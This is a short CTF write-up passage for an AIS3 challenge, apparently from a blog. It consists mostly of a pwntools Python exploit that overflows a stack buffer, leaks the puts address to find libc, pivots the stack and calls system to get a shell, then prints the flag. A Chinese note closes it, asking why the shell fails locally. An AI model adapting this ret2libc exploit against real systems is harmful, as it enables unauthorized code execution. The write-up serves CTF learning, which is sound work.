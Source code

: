 ```python
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
gets_plt = elf.plt['gets']
data_start = 0x601800
# offset
puts_off = libc_elf.symbols['puts']
system_off = libc_elf.symbols['system']

# gad
pop_rdi = 0x04007a3
ret = 0x0400291
leave_ret = 0x0040073b

payload = 'A' * (120-8)
payload = bytes(payload, 'latin-1')
payload += p64(data_start)
payload += p64(pop_rdi) + p64(puts_got)
payload += p64(puts_plt)
payload += p64(pop_rdi) + p64(data_start)
payload += p64(gets_plt)
payload += p64(leave_ret)

r.recvline()
r.recvline()
r.sendline(payload)

puts = r.recvline()[:-1]
puts = puts.ljust(8, b'\x00')
puts_addr = u64(puts)
info('puts: {}'.format(hex(puts_addr)))
libc_base = puts_addr - puts_off
info('libc: {}'.format(hex(libc_base)))
system_addr = libc_base + system_off
info('system: {}'.format(hex(system_addr)))

payload = p64(0x601a00)

payload += p64(pop_rdi) + p64(sh_str)
payload += p64(ret)
payload += p64(system_addr)
# one gadget
# payload += p64(libc_base+0x4f322)

r.sendline(payload)
r.interactive()
# AIS3{U5E_Port@L_6uN_7o_GET_tHe_$h3L1_0_o}
```

不過這題我遇到一點問題是：讓執行檔載入題目給訂的 libc，在本地即使成功運行 exploit，shell 也不會出來，但是在 remote 是能成功的
我猜是因為載入題目給訂的 libc 的關係，不過我還沒找到解法，如果有人能提供解法，我會很感謝的 :)
